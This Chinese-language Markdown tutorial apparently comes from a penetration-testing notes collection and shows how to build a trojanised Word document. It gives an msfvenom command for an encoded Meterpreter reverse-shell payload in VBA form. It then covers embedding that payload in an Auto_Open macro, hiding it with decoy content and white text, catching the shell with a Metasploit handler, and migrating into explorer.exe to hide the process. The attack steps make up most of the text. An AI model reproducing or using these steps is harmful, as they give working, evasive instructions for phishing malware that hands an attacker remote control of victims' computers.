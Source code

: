 # word 宏

> 需要安装 Office LTSC 专业增强版 2021

## 制作木马文档

生成 payload

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.6.24 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f vba-exe
```

打开 word 的宏

![](./../../../images/Word%20%E5%AE%8F/%E6%89%93%E5%BC%80%20word%20%E7%9A%84%E5%AE%8F.png)

输入宏病毒的名，创建

```
Auto_Open
```

![](./../../../images/Word%20%E5%AE%8F/%E8%BE%93%E5%85%A5%E5%AE%8F%E7%97%85%E6%AF%92%E7%9A%84%E5%90%8D%EF%BC%8C%E5%88%9B%E5%BB%BA.png)

清空代码，写入宏病毒，打开视图

> 粘贴从 Sub Auto_Open() 到 End Sub 的内容

![](./../../../images/Word%20%E5%AE%8F/%E6%B8%85%E7%A9%BA%E4%BB%A3%E7%A0%81%EF%BC%8C%E5%86%99%E5%85%A5%E5%AE%8F%E7%97%85%E6%AF%92%EF%BC%8C%E6%89%93%E5%BC%80%E8%A7%86%E5%9B%BE.png)

写入 Payload，保存

> 粘贴***下面的长字符段

![](./../../../images/Word%20%E5%AE%8F/%E5%86%99%E5%85%A5%20Payload%EF%BC%8C%E4%BF%9D%E5%AD%98.png)

修饰

> 建议在文档开头加入正常的内容，并将 Payload 代码改成白色

![](./../../../images/Word%20%E5%AE%8F/%E4%BF%AE%E9%A5%B0.png)

> 点开文档会运行宏代码，下载木马至某个目录中，并执行木马，反弹 shell

## 渗透测试

msf 配置侦听

```
msf6 > use exploit/multi/handler
```

```
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
```

```
msf6 exploit(multi/handler) > set lhost 192.168.6.24
```

```
msf6 exploit(multi/handler) > set lport 4444
```

```
msf6 exploit(multi/handler) > run
```

目标运行文档

![](./../../../images/Word%20%E5%AE%8F/%E7%9B%AE%E6%A0%87%E8%BF%90%E8%A1%8C%E6%96%87%E6%A1%A3.png)

> 成功建立连接，目标关闭 word 文档之后 session 不受影响

## 进程迁移

> 建议将进程迁移到资源管理器

在目标主机中可看到可疑进程

![](./../../../images/Word%20%E5%AE%8F/%E5%9C%A8%E7%9B%AE%E6%A0%87%E4%B8%BB%E6%9C%BA%E4%B8%AD%E5%8F%AF%E7%9C%8B%E5%88%B0%E5%8F%AF%E7%96%91%E8%BF%9B%E7%A8%8B.png)

获取当前进程 pid

```
meterpreter > getpid
Current pid: 964
```

查看进程列表，根据 pid 找到进程

```
meterpreter > ps
```

![](./../../../images/Word%20%E5%AE%8F/%E6%9F%A5%E7%9C%8B%E8%BF%9B%E7%A8%8B%E5%88%97%E8%A1%A8%EF%BC%8C%E6%A0%B9%E6%8D%AE%20pid%20%E6%89%BE%E5%88%B0%E8%BF%9B%E7%A8%8B.png)

查看资源管理器的进程

```
meterpreter > ps -S explorer.exe
```

![](./../../../images/Word%20%E5%AE%8F/%E6%9F%A5%E7%9C%8B%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86%E5%99%A8%E7%9A%84%E8%BF%9B%E7%A8%8B.png)

将可疑进程隐藏到资源管理器

```
meterpreter > migrate 4508
```

再次查看 pid

```
meterpreter > getpid
Current pid: 4508
```

目标主机中可疑进程迁移到了资源管理器

![](./../../../images/Word%20%E5%AE%8F/%E5%9C%A8%E7%9B%AE%E6%A0%87%E4%B8%BB%E6%9C%BA%E4%B8%AD%E5%8F%AF%E7%9C%8B%E5%88%B0%E5%8F%AF%E7%96%91%E8%BF%9B%E7%A8%8B.png)